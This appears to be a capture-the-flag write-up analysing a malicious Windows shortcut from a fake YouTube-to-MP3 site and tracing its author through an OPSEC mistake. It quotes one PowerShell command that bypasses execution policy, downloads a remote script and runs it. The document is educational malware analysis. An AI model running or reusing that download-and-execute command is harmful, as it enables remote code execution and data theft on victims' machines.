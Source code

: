 For this challenge, I had to analyze the files downloaded from a youtube to mp3 converter website (which are notorious for phishing scams, malware).

After evading a rickroll I saw coming from a mile away, I ran the `file` command on both the files extracted from the zip that I downloaded from the website. One was an audio file whereas the other was a MS Windows shortcut, a .lnk file, which is used to link to another file or folder in Windows _and_ can also be used to run commands.

To inspect this .lnk file, we were given the `exiftool` tool. I ran it on the `somg.mp3` file and examined the code:

```
-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```
Here, `-ep Bypass` is used to disable shell restrictions that allows the script to run without any security intereferences. `DownloadFile` downloads the IS.ps1 file from the github repository linked after it onto the ProgramData folder. After that, the script is executed by `iex which triggers the s.ps1 file.

By checking the file itself in a browser, we can see that the script was designed to collect sensitive information. However, there was a crucial error made in the script which was that it was signed off as "Created by the one and only M.M"

By searching for that signature on github, we can find this code being discussed on a public forum with another user named Bloatware-WarewillTHM.

This is the mistake made by M.M. They left traces of their work which allowed us to track them down easily, and this is the key concept behind OPSEC failure.

OPSEC refers to the process of protecting sensitive information from adversaries with the goal being to identify and eliminate potential threats before the attacker can learn their identity. In context of CyberSec, it refers to malicious actors that fail to follow proper OPSEC practices, thereby leaving traces that can be tracked down to reveal their identity. Here, the OPSEC mistake made by M.M was posting on a public forum with the same username. 

Now that we have M.M's profile, we can find out their true identity by digging around a little more in their github which has a repository "M.M" that reveals his identity - Mayor Malware.
